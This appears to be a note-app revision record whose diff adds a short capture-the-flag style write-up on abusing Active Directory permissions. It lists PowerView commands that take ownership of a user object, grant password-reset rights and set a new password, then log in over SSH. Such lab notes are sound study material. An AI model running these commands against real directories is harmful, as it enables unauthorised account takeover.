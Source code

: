 id: 4ccf1e23db2e4757b26846d77583fdc8
parent_id: 4ab0217223ce4027b5a5e08636ba73e0
item_type: 1
item_id: f21c6f5f2f59420ca228482d82081874
item_updated_time: 1642588207318
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\" information\"],[1,\"\\\n\\\n## Will need to use PowerView to exploit\\\n\\\nDownload powerview from web server\\\n\\\nUse the function Set-DomainObjectOwner to be owner of Herman\\\n\\\n> Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico\\\n\\\nThen obtain all the rights and permissions to Herman\\\n\\\n> Add-DomainObjectAcl -TargetIdentity Herman -PrincipalIdentity nico -Rights ResetPassword -Verbose\\\n\\\nCreate new password for Herman\\\n\\\n> $pass = ConvertTo-SecureString 'PleaseSubscribe!' -AsPlainText -Force\\\n> \\\n> Set-DomainUserPassword Herman -AccountPassword $pass -Verbose\\\n\\\nAttempt to login with Herman using SSH and you are able to login\"]],\"start1\":7591,\"start2\":7591,\"length1\":12,\"length2\":607}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-19T10:35:40.168Z
created_time: 2022-01-19T10:35:40.168Z
type_: 13